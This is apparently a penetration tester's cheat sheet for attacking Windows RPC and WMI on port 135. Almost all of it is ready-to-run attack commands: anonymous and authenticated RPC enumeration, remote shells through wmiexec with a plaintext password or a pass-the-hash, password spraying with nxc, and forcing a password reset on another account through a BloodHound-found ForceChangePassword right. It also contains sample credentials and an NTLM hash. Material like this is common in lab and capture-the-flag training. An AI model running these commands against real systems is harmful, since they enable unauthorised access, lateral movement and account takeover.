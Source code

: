 Port 135, high-numbered ports for WMI connections

no creds:
```
nmap -p 135 --script=rpcinfo <target-ip>
```

```
rpcclient -U "" 10.129.153.142
```

```
python rpcdump.py <target-ip>
```
creds or if connected:
```
rpcclient -U "joe%Flowers1" -c enumdomusers 172.16.247.10
```

shell:
```
wmiexec.py domain/user:password@192.168.1.10
```
```
python wmiexec.py domain/user@192.168.1.10 -hashes :aad3b435b51404eeaad3b435b51404ee:cc36cf7a8514893efccd332446158b1a
```

spray:
```
nxc wmi 192.168.1.1 -u user -p pass
```

if owned user in bloodhound has ForceChangePassword permission over another user:
```
rpcclient -U 'rsmith' //10.10.146.118
```
- put in password, then:
```
setuserinfo2 ewalters 23 "d4nk!!!"
```

